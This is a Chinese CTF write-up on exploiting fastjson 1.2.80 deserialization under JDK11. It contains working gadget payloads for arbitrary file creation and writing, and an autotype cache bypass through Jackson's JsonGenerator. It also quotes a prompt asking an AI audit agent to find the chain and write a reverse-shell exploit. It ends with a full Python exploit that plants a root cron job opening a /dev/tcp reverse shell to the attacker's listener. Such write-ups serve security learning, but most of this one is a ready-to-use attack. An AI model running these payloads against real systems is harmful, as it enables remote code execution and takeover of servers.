



## TL;DR

题目也不公开😤，差点找不到，感谢 symv1a 师傅提供的附件～
我听说这道题是一条 only JDK11 gadget，并且后续涉及到任意文件写入到RCE，所以来学习下

## 分析
### 回头看看 fastjson 1.2.68 jdk8 任意文件写以及 jdk11

https://baozongwi.xyz/p/fastjson-1.2.80-deserialization/
https://baozongwi.xyz/p/fastjson-1.2.6x-deserialization/#1268

依赖如下
```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">

    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>Fastj</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <fastjson.version>1.2.68</fastjson.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <version>3.8.1</version>
                <configuration>
                    <source>8</source>
                    <target>8</target>
                </configuration>
            </plugin>
        </plugins>
    </build>
</project>
```

复习一下，我们可以使用`AutoCloseable`调用任意 setter
```java
package org.example;

public class calc implements AutoCloseable{
    private String name;


    public void setName(String name) throws Exception {
        Runtime.getRuntime().exec(name);
    }

    @Override
    public void close() throws Exception {

    }
}

```
调用 poc 如下
```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class poc1 {
    public static void main(String[] args) {
        String poc =
                "{" +
                        "\"@type\": \"java.lang.AutoCloseable\"," +
                        "\"@type\": \"org.example.calc\"," +
                        "\"name\":\"open -a Calculator\"" +
                        "}";

        JSON.parseObject(poc, Feature.SupportNonPublicField);
    }
}
```
然后在 JDK11 的情况下我们可以任意写文件
```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class poc2 {
    public static void main(String[] args) {
        String poc = "{" +
                "\"@type\":\"java.lang.AutoCloseable\"," +
                "\"@type\":\"java.io.FileOutputStream\"," +
                "\"file\":\"/tmp/success\"," +
                "\"append\":false" +
                "}";

        JSON.parseObject(poc, Feature.SupportNonPublicField);
    }
}
```



但是并不能控制写入内容，所以准确来说这是一条任意文件创建的利用链，那么之前也学过`
`SafeFileOutputStream`可以复制文件，所以写入文件也是有的

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class poc3 {
    public static void main(String[] args) {
        String poc = "{"
                + "\"@type\":\"java.lang.AutoCloseable\","
                + "\"@type\":\"sun.rmi.server.MarshalOutputStream\","
                + "\"out\":{"
                + "  \"@type\":\"java.util.zip.InflaterOutputStream\","
                + "  \"out\":{"
                + "    \"@type\":\"java.io.FileOutputStream\","
                + "    \"file\":\"/tmp/success\","
                + "    \"append\":false"
                + "  },"
                + "  \"infl\":{"
                + "    \"input\":{"
                + "      \"array\":\"eJwFgAEJAAAAgsZKC6T/4mEaC+0C+g==\","
                + "      \"limit\":22"
                + "    }"
                + "  },"
                + "  \"bufLen\":100"
                + "},"
                + "\"protocolVersion\":1"
                + "}";

        JSON.parseObject(poc, Feature.SupportNonPublicField);
        System.out.println("check /tmp/asdasd");
    }
}
```
整体利用流程如下
- FileOutputStream 负责打开/创建目标文件
- InflaterOutputStream 负责把压缩数据解压后写进去
- MarshalOutputStream 负责触发 OutputStream 的 write/flush/close 流程


而这是 1.2.68，
### 回到现在 1.2.80 bypass

那么我们知道 1.2.80 只是将 AutoCloseable 加入到了黑名单，所以我们找一个能够替换并且将目标类加入到缓存可以二次调用的类即可，耳熟能详的是`Exception`
```java
package org.example;

public class calcException extends Exception {
    private String name;


    public void setName(String name) throws Exception {
        Runtime.getRuntime().exec(name);
    }

    public String getName() {
        return name;
    }
}
```
然后反序列化测试一下
```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class poc4 {
    public static void main(String[] args) {
        String poc =
                "{" +
                        "\"@type\": \"java.lang.Exception\"," +
                        "\"@type\": \"org.example.calcException\"," +
                        "\"name\":\"open -a Calculator\"" +
                        "}";
        JSON.parseObject(poc, Feature.SupportNonPublicField);
    }
}
```

### 回到题目
```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>FastJ</artifactId>
    <version>1.0-SNAPSHOT</version>

    <parent>
        <artifactId>spring-boot-starter-parent</artifactId>
        <groupId>org.springframework.boot</groupId>
        <version>2.6.6</version>
    </parent>

    <properties>
        <maven.compiler.source>11</maven.compiler.source>
        <maven.compiler.target>11</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.80</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
                <version>2.6.6</version>
            </plugin>
        </plugins>
    </build>

</project>
```

依赖如上，spring 依赖 JDK 11，fastjson 1.2.80
看下控制器
```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by Fernflower decompiler)
//

package com.app;

import com.alibaba.fastjson.JSON;
import java.io.FileNotFoundException;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class IndexController {
    @RequestMapping({"/"})
    public Object fastj(String json) {
        if (json == null) {
            return JSON.toJSONString("json is null");
        } else {
            try {
                return JSON.parse(json);
            } catch (Exception e) {
                return e.toString();
            }
        }
    }

    private void getflag() throws FileNotFoundException {
        new FilterFileOutputStream("/flag", "/");
    }
}

```

可以 fastjson 反序列化，并且提示了 FilterFileOutputStream 这个类
```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by Fernflower decompiler)
//

package com.app;

import java.io.FileNotFoundException;
import java.io.FileOutputStream;

public class FilterFileOutputStream extends FileOutputStream {
    public FilterFileOutputStream(String name, String prefix) throws FileNotFoundException {
        super(name);
        if (name.startsWith(prefix)) {
            ;
        }
    }
}

```

是一个任意文件创建的类，那么payload 就确定了
```json
{
  "@type": "java.lang.AutoCloseable",
  "@type": "sun.rmi.server.MarshalOutputStream",
  "out": {
    "@type": "java.util.zip.InflaterOutputStream",
    "out": {
      "@type": "com.app.FilterFileOutputStream",
      "name": "/tmp/asdasd",
      "prefix": "/tmp"
    },
    "infl": {
      "input": {
        "array": "eJxLLE5JTCkGAAh5AnE=",
        "limit": 14
      }
    },
    "bufLen": 100
  },
  "protocolVersion": 1
}
```

那么现在我们需要找一个可替换 AutoCloseable 的类，在网上可以找到 CVE-2022-25845
```json
{
  "a": "{    \"@type\": \"java.lang.Exception\",    \"@type\": \"com.fasterxml.jackson.core.exc.InputCoercionException\",    \"p\": {    }  }",
  "b": {
    "$ref": "$.a.a"
  },
  "c": "{  \"@type\": \"com.fasterxml.jackson.core.JsonParser\",  \"@type\": \"com.fasterxml.jackson.core.json.UTF8StreamJsonParser\",  \"in\": {}}",
  "d": {
    "$ref": "$.c.c"
  }
}
```
利用这个 payload 可以把`java.io.InputStream`加入 fastjson autotype 缓存，那么同理我们可以挖掘 OutputStream 缓存链
要是之前的话我可能就要 codeql 静态分析了，但是现在还是 AI 挖掘为主，使用的 prompt 如下

```text
对的思路是这样，并且你可以使用 $jar-audit-agent 审计当前目录下的 FastJ-1.0-SNAPSHOT-11-20250524151158-2xngupf.jar，使用 /Users/baozongwi/Tools/javaTools下的 jar-analyzer 的 两个MCP，
来挖掘 OutputStream 缓存链，最终实现定时任务反弹 shell，然后要求写一份 write-up.md 在当前目录，格式以及语言参考 https://baozongwi.xyz/，只写一些重要的分析过程，并且相应的源码并且完整贴出来，然后给个获得 shell 的 exp 就行，python 脚本负责通信，java poc负责反序列化 payload 生成，如果可直接发包 json 的话，java poc也可以不要，只要一个 python exp 即可
```
挖掘出了以下链
```json
{
  "a": "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.fasterxml.jackson.core.JsonGenerationException\",\"g\":{}}",
  "b": {
    "$ref": "$.a.a"
  },
  "c": "{\"@type\":\"com.fasterxml.jackson.core.JsonGenerator\",\"@type\":\"com.fasterxml.jackson.core.json.UTF8JsonGenerator\",\"out\":{}}",
  "d": {
    "$ref": "$.c.c"
  }
}
```
思路是从 Jackson 的写方向迁移：

```text
JsonGenerationException.g -> JsonGenerator
UTF8JsonGenerator.out     -> OutputStream
```
`$ref: $.a.a` 和 `$ref: $.c.c` 最终取不到值，返回 `null` 是正常的，真正要的是 JSONPath 访问字符串字段时会把字符串再 `JSON.parse` 一次。二次解析里触发 `@type` 解析和 deserializer 查找，缓存留在全局 `ParserConfig` 中，下一次请求就能用 `java.io.OutputStream` 做 expectClass。
本地测试，pom.xml 如下
```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>FastJ</artifactId>
    <version>1.0-SNAPSHOT</version>

    <parent>
        <artifactId>spring-boot-starter-parent</artifactId>
        <groupId>org.springframework.boot</groupId>
        <version>2.6.6</version>
    </parent>

    <properties>
        <maven.compiler.source>11</maven.compiler.source>
        <maven.compiler.target>11</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.80</version>
        </dependency>
    </dependencies>

</project>
```
poc 如下
```java
package org.example;

import com.alibaba.fastjson.JSON;

public class poc5 {
    public static void main(String[] args) {
        String cache =
                "{"
                        + "\"a\":\"{\\\"@type\\\":\\\"java.lang.Exception\\\",\\\"@type\\\":\\\"com.fasterxml.jackson.core.JsonGenerationException\\\",\\\"g\\\":{}}\","
                        + "\"b\":{\"$ref\":\"$.a.a\"},"
                        + "\"c\":\"{\\\"@type\\\":\\\"com.fasterxml.jackson.core.JsonGenerator\\\",\\\"@type\\\":\\\"com.fasterxml.jackson.core.json.UTF8JsonGenerator\\\",\\\"out\\\":{}}\","
                        + "\"d\":{\"$ref\":\"$.c.c\"}"
                        + "}";
        String poc =
                "{"
                        + "\"@type\":\"java.io.OutputStream\","
                        + "\"@type\":\"sun.rmi.server.MarshalOutputStream\","
                        + "\"out\":{"
                        + "\"@type\":\"java.io.OutputStream\","
                        + "\"@type\":\"java.util.zip.InflaterOutputStream\","
                        + "\"out\":{"
                        + "\"@type\":\"java.io.OutputStream\","
                        + "\"@type\":\"com.app.FilterFileOutputStream\","
                        + "\"name\":\"/tmp/success\","
                        + "\"prefix\":\"/tmp\""
                        + "},"
                        + "\"infl\":{"
                        + "\"input\":{"
                        + "\"array\":\"eJwFQFEKABAUu8qutvFCyj7F6ddk29WhB9HfZ9wVRrwHTA==\","
                        + "\"limit\":34"
                        + "}"
                        + "},"
                        + "\"bufLen\":100"
                        + "},"
                        + "\"protocolVersion\":1"
                        + "}";
        try {
            JSON.parse(cache);
            JSON.parse(poc);
            System.out.println("done");
        } catch (Throwable e) {
            e.printStackTrace();
        }
    }
}
```




## exp
一键写入定时任务反弹 shell 的 exp如下
```python
#!/usr/bin/env python3
import base64
import json
import select
import shlex
import socket
import sys
import urllib.parse
import urllib.request
import urllib.error
import zlib


TARGET = "http://127.0.0.1:18082/"
LHOST = "host.docker.internal"
LPORT = 4444

CRON_PATH = "/etc/cron.d/fastj"
PREFIX = "/etc/cron.d"


def req(payload):
    url = TARGET.rstrip("/") + "/?" + urllib.parse.urlencode({"json": payload})
    opener = urllib.request.build_opener(urllib.request.ProxyHandler({}))
    try:
        with opener.open(url, timeout=10) as r:
            return r.read().decode(errors="replace")
    except urllib.error.HTTPError as e:
        return e.read().decode(errors="replace")


def cache_payload():
    return json.dumps({
        "a": '{"@type":"java.lang.Exception","@type":"com.fasterxml.jackson.core.JsonGenerationException","g":{}}',
        "b": {"$ref": "$.a.a"},
        "c": '{"@type":"com.fasterxml.jackson.core.JsonGenerator","@type":"com.fasterxml.jackson.core.json.UTF8JsonGenerator","out":{}}',
        "d": {"$ref": "$.c.c"},
    }, separators=(",", ":"))


def write_payload(path, prefix, content):
    raw = zlib.compress(content.encode())
    data = base64.b64encode(raw).decode()

    return (
        '{'
        '"@type":"java.io.OutputStream",'
        '"@type":"sun.rmi.server.MarshalOutputStream",'
        '"out":{'
            '"@type":"java.io.OutputStream",'
            '"@type":"java.util.zip.InflaterOutputStream",'
            '"out":{'
                '"@type":"java.io.OutputStream",'
                '"@type":"com.app.FilterFileOutputStream",'
                f'"name":{json.dumps(path)},'
                f'"prefix":{json.dumps(prefix)}'
            '},'
            '"infl":{'
                '"input":{'
                    f'"array":{json.dumps(data)},'
                    f'"limit":{len(raw)}'
                '}'
            '},'
            '"bufLen":512'
        '},'
        '"protocolVersion":1'
        '}'
    )


def listen():
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(("0.0.0.0", LPORT))
    s.listen(1)
    s.settimeout(90)
    return s


def shell(s):
    print(f"[*] wait shell on 0.0.0.0:{LPORT}")
    conn, addr = s.accept()
    s.close()
    print(f"[+] shell from {addr[0]}:{addr[1]}")

    conn.setblocking(False)
    while True:
        r, _, _ = select.select([conn, sys.stdin], [], [])

        if conn in r:
            data = conn.recv(4096)
            if not data:
                break
            sys.stdout.buffer.write(data)
            sys.stdout.buffer.flush()

        if sys.stdin in r:
            cmd = sys.stdin.buffer.readline()
            if cmd:
                conn.sendall(cmd)


def main():
    s = listen()

    cmd = f"rm -f {CRON_PATH}; bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1"
    cron = (
        "SHELL=/bin/bash\n"
        "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\n"
        f"* * * * * root /bin/bash -c {shlex.quote(cmd)}\n"
    )

    body = req(cache_payload())
    if "autoType is not support" in body or "JSONException" in body:
        s.close()
        raise SystemExit("cache failed")

    body = req(write_payload(CRON_PATH, PREFIX, cron))
    if "autoType is not support" in body or "default constructor not found" in body:
        s.close()
        raise SystemExit("write failed")

    shell(s)


if __name__ == "__main__":
    main()
```




> https://github.com/luelueking/CVE-2022-25845-In-Spring
> https://jfrog.com/blog/cve-2022-25845-analyzing-the-fastjson-auto-type-bypass-rce-vulnerability/


